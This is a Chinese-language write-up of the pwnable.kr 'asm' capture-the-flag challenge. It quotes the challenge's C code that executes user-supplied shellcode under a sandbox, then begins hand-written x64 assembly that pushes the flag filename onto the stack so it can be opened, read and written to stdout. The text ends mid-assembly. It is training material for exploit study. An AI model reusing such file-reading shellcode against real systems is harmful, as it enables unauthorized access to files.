 ```
    printf("If this does not challenge you. you should play 'asg' challenge :)\n");

    char* sh = (char*)mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);
    memset(sh, 0x90, 0x1000);
    memcpy(sh, stub, strlen(stub));
    
    int offset = sizeof(stub);
    printf("give me your x64 shellcode: ");
    read(0, sh+offset, 1000);

    alarm(10);
    chroot("/home/asm_pwn");    // you are in chroot jail. so you can't use symlink in /tmp
    sandbox();
    ((void (*)(void))sh)();
    return 0;
}
```

## 解题思路
题目逻辑比较简单，因此解题思路也比较清晰：

构造shellcode，因为沙箱的限制，所以shellcode中只能使用open/read/write/exit/exit_group这5个函数。

shellcode需要完成以下功能：

    1. push存放flag的文件名（this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong，天晓得为啥起这么长的文件名……）
    2. 使用open函数打开文件
    3. 使用read函数读取文件内容（为了方便，直接读64字节，flag一般不超过这个长度……）
    4. 使用write函数把读取到的内容写入stdout

## 构造shellcode
网上有多种构造shellcode的方法，本文使用的是直接写汇编代码的方法
注：题目为64位的，因此需使用64位的寄存器
```
global _start
_start:
xor rsi, rsi    # 清空rsi寄存器
xor rdi, rdi    # 清空rdi寄存器
xor rdx, rdx    # 清空rdx寄存器

# 将文件名入栈，this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong
# 注意两点：
# 1. 栈是先进后出，因此文件名从o0o0ong开始先入栈；
# 2. 为了字节小端对齐，因此入栈字符串需要倒着写，即o0o0ong对应0x676e6f306f306f
push rdx
mov rax, 0x676e6f306f306f
push rax
mov rax, 0x306f306f306f306f
push rax
mov rax, 0x3030303030303030
push rax
mov rax, 0x303030306f6f6f6f
push rax
mov rax, 0x6f6f6f6f6f6f6f6f
push rax
push rax
mov rax, 0x6f6f6f3030303030
push rax
mov rax, 0x3030303030303030
```